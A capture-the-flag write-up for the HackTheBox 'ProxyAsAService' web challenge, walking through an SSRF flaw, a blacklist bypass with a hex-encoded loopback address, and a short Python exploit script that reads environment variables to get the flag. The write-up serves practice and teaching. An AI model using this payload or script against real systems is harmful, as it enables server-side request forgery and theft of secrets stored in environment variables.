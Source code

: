 ```yaml
---
title: HackTheBox -- ProxyAsAService Writeup
date: 2025-08-28 00:00:00 +0800
categories: [web challenges]
tags: [SSRF,Filter-Bypass]
image:
    path: images/hackthebox.png
---
```

# HackTheBox — ProxyAsAService [Easy]

In this write-up, we will solve the **ProxyAsAService** challenge from HackTheBox. The goal is to analyze the web application, identify its weaknesses, and use them to gain command execution in order to retrieve the flag. Along the way, we will break down each step of the exploitation process to clearly demonstrate how the vulnerability can be discovered and leveraged.

Let’s navigate to the website.

![image.png](../images/ProxyAsAService.png)

> The website automatically redirect us to reedit
> 

Now let’s take a look at the source code.

![image.png](../images/ProxyAsAService%201.png)

> Notice that we found that the url is passed as a parameter to a function name **`proxy_req`**
> 

Now let’s read the source code of the **proxy_req** function

![image.png](../images/ProxyAsAService%202.png)

> notice that we found that the url parameter is used to call the **requests.request** function which make it vulnerable to **SSRF**
> 

Now let’s see the IP restrictions 

![image.png](../images/ProxyAsAService%203.png)

> Notice that there was a blacklist that block some IP Address from being called
> 

**Now what is the Idea of the challenge?**

![image.png](../images/ProxyAsAService%204.png)

> The idea is to make a request to the [localhost](http://localhost) to the and make a request to the endpoint **`/debug/environment`** that will print the environment variables on the machine
> 

Now why we need to call the **environment endpoint**? 

![image.png](../images/ProxyAsAService%205.png)

> We need to call the environment variables as the flag is stored in it
> 

Now let’s exploit the bug

```python
@0x7f000001:1337/debug/environment
```

![image.png](../images/ProxyAsAService%206.png)

> As we see we managed to bypass the IP Restrictions using the **Hex Encoded IP Address** and make a request to the **environment endpoint** and got the flag!
> 

Now let’s write exploit script to get the flag

```python
import requests

target = input("Please Enter target (e.g. 127.0.0.1:8080): ")

base_url = f"http://{target}/?url=@0x7f000001:1337/debug/environment"

def redirect_me():
    try:
        r = requests.get(base_url, timeout=5)
        try:
            data = r.json()
            env = data.get("Environment variables", {})
            flag = env.get("FLAG")
            if flag:
                print("[+] FLAG:", flag)
            else:
                print("[!] FLAG not found. Full response:", data)
        except ValueError:
            print("[!] Response is not JSON:\n", r.text)
    except requests.RequestException as e:
        print(f"[!] Error: {e}")

redirect_me()

```

![image.png](../images/ProxyAsAService%207.png)

Now let’s run the exploit script

![image.png](../images/ProxyAsAService%208.png)

> Amazing we managed to get the flag!
> 

🎯 Conclusion

By following the exploitation path and carefully analyzing the challenge, we were able to identify the vulnerability and successfully obtain the flag. This highlights the importance of secure coding practices and the risks of improper input handling in web applications.

*Written by **SecretRemo*** ✍️

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT